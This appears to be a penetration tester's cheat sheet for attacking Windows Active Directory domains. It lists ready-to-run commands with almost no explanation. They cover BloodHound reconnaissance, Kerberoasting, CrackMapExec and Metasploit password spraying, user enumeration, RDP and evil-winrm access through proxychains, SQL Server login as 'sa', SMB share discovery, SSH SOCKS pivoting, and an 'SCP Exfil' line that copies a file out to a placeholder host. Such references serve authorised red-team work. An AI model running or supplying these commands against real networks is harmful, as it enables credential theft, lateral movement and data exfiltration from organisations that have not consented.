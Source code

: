 Bloodhound From Kali
---------------------------------------------------------------
`sudo pip3 install bloodhound`  

`bloodhound-python -u adusername -d domain.corp -v -c dconly -ns x.x.x.x`  
`bloodhound-python -u adusername -d domain.corp -v -c all -ns x.x.x.x`

Kerberoast SPNS
---------------------------------------------------------------
`python3 GetUserSPNS.py -request domain.corp/adusername -dc-ip x.x.x.x`

CrackMapExec
---------------------------------------------------------------
Check for smb access  
`cme smb -u username -p Welcome1 --shares final.txt --continue-on-success`

Password spray against user list  
`cme smb -u usernamesonly.txt -p Welcome1 -d domain.corp  x.x.x.x(target) --continue-on-success`

Grab user list  
`python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all domain.corp/aduser -dc-ip x.x.x.x`

Metasploit Password Spray SMB
---------------------------------------------------------------
`use auxiliary/scanner/smb/smb_login` 

RDP (simple) 
---------------------------------------------------------------
`proxychains-ng xfreerdp /v:x.x.x.x /u:username /d:domain.corp /p:Welcome1`

RDP (Clipboard, mounted tsclient) 
---------------------------------------------------------------
`proxychains-ng xfreerdp +clipboard /v:x.x.x.x /u:username /d:domain.local /drive:tsclient,/path/to/mounted/folder/` 

Evil-winrm
---------------------------------------------------------------
`proxychains-ng evil-winrm -i x.x.x.x -u username -p 'Welcome1'`

SCP Exfil
---------------------------------------------------------------
`scp SuperSecretDummyExfil.xlsx username@x.x.x.x:/home/pentesting`

Database CommandLine Access SQSH
---------------------------------------------------------------
`proxychains-ng sqsh -S x.x.x.x -U sa -P Welcome1`

Access SMB Share
---------------------------------------------------------------
Check for null session  
`echo exit | smbclient -L \\\\$line`

Connect and explore through smbclient  
`smbclient //x.x.x.x/share`  

Mount open share locally  
`sudo mount //x.x.x.x/share /mnt/share`

Proxychains ssh
---------------------------------------------------------------
`ssh -L 7777:localhost:7777 username@hostname.com`  
`ssh -ND 7777 username@localhost`

Invoke Share Finder
---------------------------------------------------------------
`Invoke-ShareFinder -CheckShareAccess -ExcludeStandard -ExcludePrint -ExcludeIPC -Verbose | Out-File -Encoding ASCII shareaccess.txt`  
